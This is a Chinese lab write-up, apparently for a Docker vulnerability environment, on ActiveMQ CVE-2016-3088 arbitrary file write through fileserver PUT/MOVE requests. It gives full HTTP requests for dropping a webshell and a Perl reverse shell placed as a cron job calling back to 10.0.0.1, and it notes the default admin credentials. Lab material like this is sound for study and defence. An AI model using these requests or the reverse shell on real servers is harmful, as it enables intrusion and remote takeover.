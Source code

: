 # ActiveMQ任意文件写入漏洞（CVE-2016-3088）

## 环境搭建

搭建及运行漏洞环境：

```
docker-compose build
docker-compose up -d
```

环境监听{{port[0]}}端口和{{port[1]}}端口，其中{{port[0]}}为web控制台端口，本漏洞就出现在web控制台中。

访问`http://{{ip}}:{{port[0]}}/`看到web页面，说明环境已成功运行。

## 背景简述

ActiveMQ的web控制台分三个应用，admin、api和fileserver，其中admin是管理员页面，api是接口，fileserver是储存文件的接口；admin和api都需要登录后才能使用，fileserver无需登录。

fileserver是一个RESTful API接口，我们可以通过GET、PUT、DELETE等HTTP请求对其中存储的文件进行读写操作，其设计目的是为了弥补消息队列操作不能传输、存储二进制文件的缺陷，但后来发现：

1. 其使用率并不高
2. 文件操作容易出现漏洞

所以，ActiveMQ在5.12.x~5.13.x版本中，已经默认关闭了fileserver这个应用（你可以在conf/jetty.xml中开启之）；在5.14.0版本以后，彻底删除了fileserver应用。

在测试过程中，可以关注ActiveMQ的版本，避免走弯路。

## 漏洞详情

本漏洞出现在fileserver应用中，漏洞原理其实非常简单，就是fileserver支持写入文件（但不解析jsp），同时支持移动文件（MOVE请求）。所以，我们只需要写入一个文件，然后使用MOVE请求将其移动到任意位置，造成任意文件写入漏洞。

文件写入有几种利用方法：

1. 写入webshell
2. 写入cron或ssh key等文件
3. 写入jar或jetty.xml等库和配置文件

写入webshell的好处是，门槛低更方便，但前面也说了fileserver不解析jsp，admin和api两个应用都需要登录才能访问，所以有点鸡肋；写入cron或ssh key，好处是直接反弹拿shell，也比较方便，缺点是需要root权限；写入jar，稍微麻烦点（需要jar的后门），写入xml配置文件，这个方法比较靠谱，但有个鸡肋点是：我们需要知道activemq的绝对路径。

分别说一下上述几种利用方法。

### 写入webshell

前面说了，写入webshell，需要写在admin或api应用中，而这俩应用都需要登录才能访问。

默认的ActiveMQ账号密码均为`admin`，首先访问`http://{{ip}}:{{port[0]}}/admin/test/systemProperties.jsp`，查看ActiveMQ的绝对路径：

![](02.png)

然后上传webshell：

```
PUT /fileserver/2.txt HTTP/1.1
Host: {{ip}}:{{port[0]}}
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 120976

webshell...
```

移动到web目录下的api文件夹（`/opt/activemq/webapps/api/s.jsp`）中：

```
MOVE /fileserver/2.txt HTTP/1.1
Destination: file:///opt/activemq/webapps/api/s.jsp
Host: {{ip}}:{{port[0]}}
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0


```

访问webshell（需要登录）：

![](03.png)

### 写入crontab，自动化弹shell

这是一个比较稳健的方法。首先上传cron配置文件（注意，换行一定要`\n`，不能是`\r\n`，否则crontab执行会失败）：

```
PUT /fileserver/1.txt HTTP/1.1
Host: {{ip}}:{{port[0]}}
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 248

*/1 * * * * root /usr/bin/perl -e 'use Socket;$i="10.0.0.1";$p=21;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
##
```

将其移动到`/etc/cron.d/root`：

```
MOVE /fileserver/1.txt HTTP/1.1
Destination: file:///etc/cron.d/root
Host: {{ip}}:{{port[0]}}
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0


```

如果上述两个请求都返回204了，说明写入成功。等待反弹shell：

![](01.png)

这个方法需要ActiveMQ是root运行，否则也不能写入cron文件。

### 写入jetty.xml或jar

理论上我们可以覆盖jetty.xml，将admin和api的登录限制去掉，然后再写入webshell。

有的情况下jetty.xml和jar等所有人是web容器的用户，所以相比起来，写入crontab成功率更高一点。

尚未测试。